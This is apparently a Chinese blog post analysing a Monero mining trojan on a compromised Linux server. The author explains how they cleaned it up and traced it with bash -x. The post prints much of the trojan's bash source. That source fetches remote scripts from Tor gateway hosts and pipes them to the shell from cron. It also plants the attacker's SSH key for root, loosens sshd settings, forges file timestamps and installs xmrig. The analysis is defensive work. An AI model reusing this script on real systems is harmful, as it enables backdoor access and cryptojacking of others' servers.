记一次门罗币挖矿木马脚本调试分析
前天晚上我们专业一位同学发消息告诉我，他的服务器被入侵木马挖矿了，CPU一直被挖矿进程占满，导致业务无法正常运行，他已经按照网上的方法清理过一遍，但无法彻底清除。让我帮他清理一下，我花了一天的时间仔细分析了这个挖矿脚本，最后彻底清除了，记录一下对该挖矿木马的调试分析过程。
首先连上他的服务器后，用top命令发现cpu确实被占满了，该进程为exin。

既然是挖矿木马，要杀掉后自启动肯定要写入crontab定时任务。

可以看到是每隔19分钟执行一次脚本，脚本的内容在/etc/cron.hourly/agetty。我们跟进查看一下。

很明显这个脚本是检查exin进程是否还在，如果不在就用nohup继续在后台启动并将标准和错误输出重定向给null，也就是不输出。
所以只kill掉exin这个进程的话每隔19分钟还会再启动。但是刘洋同学之前也都清理过，肯定没那么简单，还有其他的定时任务来保证木马运行。继续查看其他cron下的脚本。在/etc/cron.d/目录下发现了

这个spool文件的日期是2016年的，很明显有问题！不过由于脚本内容较多，我就将它下载到了本地分析。

脚本太长，我只能放部分截图。我猜测这应该就是木马的主要部分了。从上面的部分代码中，可以猜测是要向外部服务器发起请求来下载挖矿程序和木马本身的。木马的作者提供了多个域名，所以是通过字符串拼接的方式，虽然暂时不清楚修改hosts文件的作用。
简略地看了代码后，我并不能彻底清理掉，只好先把已经发现的脚本和挖矿程序先删掉，晚上寝室又快熄灯了。我就只好做一些简单的处理让exin挖矿暂时不能起来。所以我也修改了一下hosts文件，加了一个crontab任务清理exin程序，第二天再详细分析代码。


虽然我这种办法很蠢，不过暂时应付一下还蛮有效的，第二天挖矿进程都没起来过。所以我就把主要的时间用来分析上面的那个木马的源码。
所以下面我就用之前阅读Python标准库源码的方式来分析该木马。我把木马的源码拆分为很多份逐步分析。
#!/bin/bash
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
odc="--retry 2 --connect-timeout 26 --max-time 75 -fsSLk"
odcf="--retry 2 --connect-timeout 26 --max-time 175 -fsSLkC- -o"
odw="--tries=2 --connect-timeout=26 --timeout=75 --no-check-certificate -qO-"
odwf="--tries=2 --connect-timeout=26 --timeout=175 --no-check-certificate -qcO"
function dp() {
if [ "$(command -v curl|wc -l)" -eq 1 ]; then
curl ${odc} "$1" --user-agent 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36';
elif [ "$(command -v wget|wc -l)" -eq 1 ]; then
wget ${odw} "$1" --user-agent='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36';
fi
}
function dpf() {
if [ "$(command -v curl|wc -l)" -eq 1 ]; then
curl ${odcf} "$1" "$2" --user-agent 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36';
elif [ "$(command -v wget|wc -l)" -eq 1 ]; then
wget ${odwf} "$1" "$2" --user-agent='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36';
fi
}代码开头部分，定义了一些变量和函数。上面的变量od*就是curl和wget的一些参数。而函数dp和dpf就是实现下载功能。两者的区别在于，前者只下载，后者下载后将其写入文件。在dpf中，$1是保存的路径$2就是要下载的文件。
uo="eknr73utr7u7bzwo"
tr1=".onion.ly"
tr2=".onion.ws"
tr3=".tor2web.su"
bd="/wp-content/"
if grep -E 'onion|tor2|github' /etc/hosts; then
chattr -aui /etc/hosts >;/dev/null 2>;&1
sed -i -e '/onion/d' -e '/tor2/d' -e '/github/d' /etc/hosts
touch -amr "$(find /usr/bin -type f|shuf -n1)" /etc/hosts
fi
if dp "https://${uo}${tr1}${bd}"; then
export trv="https://${uo}${tr1}${bd}"
elif dp "https://${uo}${tr2}${bd}"; then
export trv="https://${uo}${tr2}${bd}"
elif dp "https://${uo}${tr3}${bd}"; then
export trv="https://${uo}${tr3}${bd}"
fi
ush="${trv}J6M86V"
uks="${trv}ZOQVL"
ucf="${trv}AR9DC"
uc1="${trv}zbesIdqwQHdhG8DZF2KNBZXzZgPVTmNlYIPOYfo"
uc2="${trv}ekK9k9Yhtp8Bsul2EmftImLTq1t078ZiP36WCco"
uc3="${trv}RHNM3"
ut1="${trv}PRnsapUmg3mpEBWgsrSTjHTC0jHZQiBe59BPbF3"
ut2="${trv}ptQdGfoVDHfxFlahJ7Nfl93xpI6UDXkFV5WJTUm"
uxi='https://github.com/xmrig/xmrig/releases/download/v5.0.1/xmrig-5.0.1-xenial-x64.tar.gz'
lcf1="/dev/shm/swapfile"
lcf2="/bin/config.json"
lex="/bin/exin"
c1="/etc/cron.d/spool"
c2="/etc/crontab"
c3="/var/spool/cron/root"
c4="/etc/cron.hourly/agetty"
c5="/usr/bin/unattended-upgrades"
c6="/etc/crond"
td="/usr/local/includes"
shk="ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzvqVju3NQ4wFNceks9uEyWfgCoMt/jfywgcjaXXuOZQG9nlmah5GVdosR9Ie7qbnTCFrUB/4YyHYu6jvu0Vk9UwlauzyJO5aVXg8Jr7cwmvG9D5alzhlKTKHZOkUsD/dXe8LC/zC4cLmZRPFs3s91A9WbXbEZi1x8pys3bIgF8PUXtnzl/vjDviFoew4NG3WlOuM0SudZ1goOj2awDm/LUGCSKcgtSenyUDockCJHhv/negYpGC9C14CepID4xB1d33Q3GL4YRwnSWPJ0ewT0butdt0foOH4t0Rv0Tz5fHq3Xkiy8EZd1pohRy8GrURC259Ndw+zKTt13KKcBOnrj"这段很明显是对文件路径的定义以及变量的拼接。而变量uxi为门罗币挖矿程序的github地址。
可以看到tr1,2,3是3个主域名拼接uo。然后修改主机的hosts文件，仔细思考一番后，这样做就是为了保证脚本能正常请求他的服务器。也就是防止之前我手动修改hosts文件让其解析失败的情况。所以作者就是根据关键词进行删除，由于后面脚本还会在在github上下载挖矿程序，所以连出现github的行也一并删掉。
很多朋友可能不太明白。
touch -amr "$(find /usr/bin -type f|shuf -n1)" /etc/hosts的作用，这个就是修改文件的创建时间，掩盖真实被修改的时间，更难以察觉。简单试验一下。

if [ -f /root/.ssh/authorized_keys ]; then
chattr -aui /root/.ssh/authorized_keys >;/dev/null 2>;&;1
sed -i '/server@localhost/d; /localhost@server/d; /admin@localhost/d; /root@ubuntu/d; /eks9uEyWfgCoMt/d' /root/.ssh/authorized_keys
else
mkdir -p /root/.ssh
chmod 700 /root/.ssh
touch /root/.ssh/authorized_keys
fi
if grep -q "${shk}" /root/.ssh/authorized_keys; then
:
else
echo "${shk}" >;>;/root/.ssh/authorized_keys
touch -amr "$(find /usr/bin -type f|shuf -n1)" /root/.ssh/authorized_keys /root/.ssh
chattr -aui /etc/ssh >;/dev/null 2>;&;1
chattr -aui /etc/ssh/sshd_config /etc/hosts.deny /etc/hosts.allow >;/dev/null 2>;&;1
echo >;/etc/hosts.deny
echo >;/etc/hosts.allow
mkdir -p /etc/ssh
sed -i -e 's/Port 78//g' -e 's/\#Port 22/Port 22/g' -e 's/\#PermitRootLogin/PermitRootLogin/g' -e 's/PermitRootLogin no/PermitRootLogin yes/g' -e 's/PermitRootLogin without-password/PermitRootLogin yes/g' -e 's/PermitRootLogin prohibit-password/PermitRootLogin yes/g' -e 's/PasswordAuthentication no/PasswordAuthentication yes/g' -e 's/GSSAPIAuthentication yes/GSSAPIAuthentication no/g' -e 's/GSSAPICleanupCredentials yes/GSSAPICleanupCredentials no/g' /etc/ssh/sshd_config
chmod 600 /etc/ssh/sshd_config
touch -amr "$(find /usr/bin -type f|shuf -n1)" /etc/ssh/sshd_config /etc/ssh
{
systemctl restart ssh||service ssh restart||/etc/init.d/ssh restart||/etc/init.d/sshd restart||/etc/rc.d/sshd restart||service sshd restart||scw-fetch-ssh-keys --upgrade
} >;/dev/null 2>;&;1
fi这段代码的作用就是写入作者的ssh私钥，相当于作者可以随时远控肉鸡。作者先判断/root/.ssh/authorized_keys秘钥文件是否存在。若存在则把一些常见的登录用户给删除掉，若没有则直接创建文件。
接着判断authorized_keys中是否存在作者的私钥，这样也避免了木马多次执行时反复写入。若没有就追加进去，然后清空hosts.deny和hosts.allow文件接着修改/etc/ssh/sshd_config文件，这个就是sshd的配置文件，将配置文件中很多默认的注释项前的#去除掉，这样保证连接时不会被限制，然后重启sshd生效。
if dp ${ut1}; then
if [ "$(grep '"tls": true' ${lcf2}|wc -l)" -ne 1 ]; then
chattr -aui ${lcf1} ${lcf2} >;/dev/null 2>;&;1
rm -rf ${lcf1} ${lcf2}
dpf ${lcf1} ${ucf}
mv -f ${lcf1} ${lcf2}
chmod 644 ${lcf2}
chown 0:0 ${lcf2}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${lcf2}
chattr +ai ${lcf2}
pkill -9 -f ${lex}
fi
echo "3fac250cf6bdb0bf5b1707a970bd233e86dabc0765fede8238d761fb0f27c3da ${lex}"|sha256sum -c --quiet
if [ $? -eq 1 ]; then
eval tf="/var/tmp/$(head /dev/urandom|tr -dc A-Za-z0-9|head -c $(shuf -i 4-7 -n 1))"
eval td="/var/tmp/$(head /dev/urandom|tr -dc A-Za-z0-9|head -c $(shuf -i 2-4 -n 1))"
chattr -aui ${lex} /var/tmp >;/dev/null 2>;&;1
dpf ${tf} ${uxi}
mkdir -p ${td}
tar xf ${tf} --strip-components=1 -C ${td} >;/dev/null 2>;&;1
mv -f ${td}/*mr*g ${lex} >;/dev/null 2>;&;1
rm -rf ${td} ${tf}
chmod 755 ${lex}
chown 0:0 ${lex}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${lex}
chattr +ai ${lex}
pkill -9 -f ${lex}
sysctl -w vm.nr_hugepages=128 ;/dev/null 2>;&;1
${c4} >;/dev/null 2>;&;1
fi
if [ "$(grep systemd-host ${c6}|wc -l)" -ne 0 ]; then
chattr -aui ${c6} >;/dev/null 2>;&;1
rm -rf ${c6}
dpf ${c6} ${uks}
chmod 755 ${c6}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c6}
dp ${uks}|$SHELL >;/dev/null 2>;&;1
${c6} >;/dev/null 2>;&;1
fi
if [ "$(grep sc\outd ${c5}|wc -l)" -eq 0 ]; then
chattr -aui ${c5} >;/dev/null 2>;&;1
rm -rf ${c5}
dpf ${c5} ${ush}
chmod 755 ${c5}
chown 0:0 ${c5}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c5}
fi
fi但是这段代码就没有那么友好了，有很多的变量名，挨个去找每个变量的值显然很麻烦，加大了我们分析的难度。所以我决定还是用动态调试的办法。我把该木马脚本上传到了我另一台阿里云的服务器上，并提前做了快照备份。那么就开始吧。
我们直接使用bash的-x参数，提供跟踪执行信息，将执行的每一条命令和结果依次打印出来。为了分析方便，我们在调试时打印出脚本的行号。变量PS4表示当设置-x选项并默认为:后加空格时，该值是在命令行回送之前打印的提示。

为了方便分析，我将打印的调试信息和脚本同时放到本地用notepad++对比分析。

将notepad++切换到上下视图，行号与脚本依次对应，执行时的变量信息都打印出来，分析就方便多了。
继续分析这段代码，先判断目标url是否可访问，可以再接下来4个判断分支。
第一个分支：先判断/bin/config.json文件是否存在，这个是挖矿程序的配置文件

第二个分支：检查挖矿程序hash值

第三个分支：判断/etc/crond文件中是否出现字符串systemd-host。直接分析代码。可以看得出作者是有针对性的对阿里云的主机进行的攻击。

第4个分支：判断/usr/bin/unattended-upgrades文件是否存在，发现木马源文件没有了则重新下载自己保证木马代码一直存在于服务器中。

接着分析下面的代码
chattr -aui /etc/crontab /etc/cron.d /etc/cron.d/* /var/spool /var/spool/cron /var/spool/cron/* >;/dev/null 2>;&;1
mkdir -p /etc/cron.d /var/spool/cron
sed -i -e '/base64/d' -e '/docker/d' -e '/pastebin.com/d' -e '/gitee/d' -e '/mr.sh/d' -e '/2mr.sh/d' -e '/cr5.sh/d' -e '/logo9.jpg/d' -e '/tmpfile/d' -e' /\/usr\/local\/shared/d' -e '/aliynd-upd-service/d' -e' /aliyun-service/d' -e '/dqVBS/d' -e '/uiC5HSaS.sh/d' -e '/log_rotate/d' -e '/aliynd-upd-check/d' -e '/duckdns/d' -e '/havaged/d' -e '/scoutd/d' -e '/apachi/d' /etc/crontab
find /etc/cron.d -type f -print0|xargs -r0 sed -i -e '/base64/d' -e '/docker/d' -e '/curl/d' -e '/pastebin.com/d' -e '/gitee/d' -e '/mr.sh/d' -e '/2mr.sh/d' -e '/cr5.sh/d' -e '/logo9.jpg/d' -e '/tmpfile/d' -e '#\/usr\/local\/shared#d' -e '/aliynd-upd-service/d' -e' /aliyun-service/d' -e '/uiC5HSaS.sh/d' -e '/log_rotate/d' -e '/aliynd-upd-check/d' -e "/duckdns/d" -e '/havaged/d' -e '/scoutd/d' -e '/apachi/d'
find /var/spool/cron -type f -print0|xargs -r0 sed -i -e '/base64/d' -e '/docker/d' -e '/curl/d' -e '/pastebin.com/d' -e '/gitee/d' -e '/mr.sh/d' -e '/2mr.sh/d' -e '/cr5.sh/d' -e '/logo9.jpg/d' -e '/tmpfile/d' -e' #\/usr\/local\/shared#d' -e '/aliynd-upd-service/d' -e' /aliyun-service/d' -e '/uiC5HSaS.sh/d' -e '/log_rotate/d' -e '/aliynd-upd-check/d' -e "/duckdns/d" -e '/scoutd/d' -e '/apachi/d'
if [ -f /var/spool/mail/root ]; then
rm -f /var/spool/mail/root
mkdir -p /var/spool/mail/root
touch -amr "$(find /usr/bin -type f|shuf -n1)" /var/spool/mail/root
fi
if [ "$(grep WebKit ${c1}|wc -l)" -ne 1 ]; then
chattr -aui ${c1} >;/dev/null 2>;&;1
rm -rf ${c1}
echo "MAILTO=''" >;${c1}
echo "*/19 * * * * root if [ \"\$(pgrep -f ${lex}|wc -l)\" -eq 0 ];then ${lex};fi;(curl ${odc} ${uc2} --user-agent 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36'||wget ${odw} ${uc2} --user-agent='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36')|$SHELL >;/dev/null 2>;&;1" >;>;${c1}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c1}
fi
if [ $(grep "MAILTO=''" ${c1}|wc -l) -ne 1 ]; then
sed -i '/MAILTO/d' ${c1}
sed -i "1s#^#MAILTO=''\n#g" ${c1}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c1}
fi
if [ "$(grep .. ${c1}|sort|uniq -cd|sort -r|wc -l)" -ne 0 ] &;&; [ "$(command -v perl|wc -l)" -eq 1 ]; then
perl -i -ne 'print if ! $x{$_}++' ${c1}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c1}
fi很明显是和cron相关，作者清理掉一些列其他常见的挖矿脚本的cron，当然是黑吃黑啦。

if [ "$(grep WebKit ${c2}|wc -l)" -ne 1 ]; then
sed -i "/curl/d" ${c2}
echo "*/11 * * * * root if [ \"\$(pgrep -f ${lex}|wc -l)\" -eq 0 ];then ${lex};fi;(curl ${odc} ${uc2} --user-agent 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36'||wget ${odw} ${uc2} --user-agent='Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36')|$SHELL >;/dev/null 2>;&;1" >;>;${c2}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c2}
fi
if [ "$(grep ${c5} ${c2}|wc -l)" -ne 2 ]; then
echo "@reboot root ${c5} >;/dev/null 2>;&;1" >;>;${c2}
echo "0 */3 * * * root ${c5} >;/dev/null 2>;&;1" >;>;${c2}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c2}
fi
if [ $(grep "MAILTO=''" ${c2}|wc -l) -ne 1 ]; then
sed -i '/MAILTO/d' ${c2}
sed -i "1s#^#MAILTO=''\n#g" ${c2}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c2}
fi
if [ "$(grep .. ${c2}|sort|uniq -cd|sort -r|wc -l)" -ne 0 ] &;&; [ "$(command -v perl|wc -l)" -eq 1 ]; then
perl -i -ne 'print if ! $x{$_}++' ${c2}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c2}
fi
if [ "$(grep ${uo} ${c3}|wc -l)" -ne 1 ]; then
if [ -d ${c3} ]; then rm -rf ${c3}; fi
echo "*/19 * * * * ${c4} >;/dev/null 2>;&;1" >;>;${c3}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c3}
fi
if [ $(grep "MAILTO=''" ${c3}|wc -l) -ne 1 ]; then
sed -i '/MAILTO/d' ${c3}
sed -i "1s#^#MAILTO=''\n#g" ${c3}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c3}
fi
if [ "$(grep .. ${c3}|sort|uniq -cd|sort -r|wc -l)" -ne 0 ] &;&; [ "$(command -v perl|wc -l)" -eq 1 ]; then
perl -i -ne 'print if ! $x{$_}++' ${c3}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c3}
fi对于这段代码的分析，我们直接查看/etc/crontab文件。
